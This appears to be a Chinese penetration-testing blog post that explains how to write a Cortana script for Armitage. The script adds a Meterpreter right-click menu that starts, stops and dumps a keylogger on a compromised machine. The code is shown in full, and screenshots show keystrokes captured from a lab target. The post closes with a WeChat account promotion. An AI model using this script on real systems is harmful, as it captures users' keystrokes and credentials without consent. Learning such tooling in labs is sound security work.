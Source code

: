 ```yaml
---
layout: post
category: binghe-code-hack
title: Armitage使用Cortana创建自定义菜单
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Armitage使用Cortana创建自定义菜单
lock: need
---
```


# Armitage使用Cortana创建自定义菜单

通过Meterpreter会话成功连接到目标计算机之后，Cortana还可以为我们提供构建自定义菜单的功能。这里，我们创建一个监听目标主机键盘操作的自定义菜单

首先创建一个脚本menu.cna，内容如下：

```
popup meterpreter_bottom{
    menu "&My Key Logger"{
        item "&Start Key Logger"{
            m_cmd($1, "keyscan_start");
        }
        item "&Stop Key Logger"{
            m_cmd($1, "keyscan_stop");
        }
        item "&Show Keylogs"{
            m_cmd($1, "keyscan_dump");
        }
        on meterpreter_keyscan_start{
            println(" $3 ");
        }
        on meterpreter_keyscan_stop{
            println(" $3 ");
        }
        on meterpreter_keyscan_dump{
            println(" $3 ");
        }
    }
}
```

这段代码实现了在Meterpreter子菜单中创建一个新的弹出菜单项。不过**只有成功渗透了目标计算机并取得了一个Meterpreter命令行时，这个弹出菜单才是可用的**

关键字popup表示要创建一个弹出式菜单项，而函数meterpreter_bottom表示当用户在目标计算机图标上单击鼠标右键并选中Meterpreter时，这个菜单项就会出现。关键字item制定了菜单中的各个选项。，命令m_cmd会根据它们对应编号的会话将命令发送给Metasploit。

这段代码有三个选项：Start Key Logger、Stop Key Logger和Show Keylogs。分别用来开启键盘监听器、停止键盘监听器以及显示当前记录中的键盘监听数据。我们还声明了三个用来处理发送给Meterpreter的命令输出函数。

在Cortana中载入这个脚本，成功渗透目标计算机，然后在目标计算机的图表上单击鼠标右键，会弹出如下的菜单：

![img](https://img-blog.csdnimg.cn/20190128212228138.png)

这里，我们单击Start Key Logger，在Cortana命令行输出了信息：

![img](https://img-blog.csdnimg.cn/2019012821224894.png)

此时，我们到靶机上利用记事本随便输入几个字符

![img](https://img-blog.csdnimg.cn/20190128212306661.png)

接着我们在Kali上单击Show Keylogs

![img](https://img-blog.csdnimg.cn/20190128212323902.png)

效果如下：

![img](https://img-blog.csdnimg.cn/20190128212339314.png)

可以看到在Cortana命令行输出了我们在靶机上输入的键盘操作。

接着，我们单击Stop Key Logger停止键盘监听

![img](https://img-blog.csdnimg.cn/20190128212402916.png)

效果如下：

![img](https://img-blog.csdnimg.cn/20190128212418824.png)

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)